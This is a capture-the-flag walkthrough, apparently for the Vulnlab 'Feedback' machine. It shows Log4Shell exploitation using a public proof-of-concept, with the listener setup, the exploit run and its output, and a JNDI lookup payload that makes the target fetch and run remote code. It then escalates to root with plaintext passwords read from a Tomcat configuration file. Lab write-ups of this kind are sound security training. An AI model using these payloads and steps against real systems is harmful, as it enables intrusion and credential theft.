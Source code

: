 

# Foothold

website seesm to be vulnerable for log5j

found in source code 
![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209210541.png)


![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209210505.png)


script to use for exploit 

https://github.com/kozmer/log4j-shell-poc

starting web server 
```
python3 -m http.server 8080
```

starting listener 
```
nc -lvnp 8181
```

exploit 
```
python3 poc.py --userip 10.8.1.92 --webport 8080 --lport 8181

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.8.1.92:1389/a}

[+] Starting Webserver on port 8080 http://0.0.0.0:8080
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.8.1.92:8080/Exploit.class
Send LDAP reference result for a redirecting to http://10.8.1.92:8080/Exploit.class
Send LDAP reference result for a redirecting to http://10.8.1.92:8080/Exploit.class
Send LDAP reference result for a redirecting to http://10.8.1.92:8080/Exploit.class
```



![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209213453.png)
and we got shell

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209213559.png)



# Privesc



password in tomcat folder allows to login as root


```
cat /opt/tomcat/conf/tomcat-users.xml


<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <user username="admin" password="H2RR3rGDrbAnPxWa" roles="manager-gui"/>
  <user username="robot" password="H2RR3rGDrbAnPxWa" roles="manager-script"/>

</tomcat-users>

```


```
tomcat@ip-10-10-10-7:~/conf$ su
Password: 
root@ip-10-10-10-7:/opt/tomcat/conf# whoami
root
root@ip-10-10-10-7:/opt/tomcat/conf# cd /root
root@ip-10-10-10-7:~# cat root.txt 
VL{25da7f42f4e279698c91c0ce911d51a9}
root@ip-10-10-10-7:~# ip add
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 0a:82:7b:12:b8:e1 brd ff:ff:ff:ff:ff:ff
    inet 10.10.67.198/18 brd 10.10.127.255 scope global dynamic eth0
       valid_lft 2179sec preferred_lft 2179sec
    inet6 fe80::882:7bff:fe12:b8e1/64 scope link 
       valid_lft forever preferred_lft forever

```


![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/vulnlab/Feedback/Screenshots/Pasted%20image%2020240209215243.png)



